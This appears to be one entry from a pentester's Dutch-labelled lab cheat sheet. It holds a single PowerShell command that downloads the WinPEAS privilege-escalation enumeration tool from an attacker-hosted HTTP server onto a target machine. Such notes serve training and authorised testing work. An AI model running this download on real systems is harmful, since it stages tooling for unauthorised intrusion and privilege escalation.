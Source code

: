 # 27. Assembling the pieces — Entry 31

## Categorie

Situational awareness

## Commando

```
iwr -uri http://192.168.45.162:8000/winpeas.exe -Outfile winpeas.exe
```

## Omschrijving

Get winpeas on the machine

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

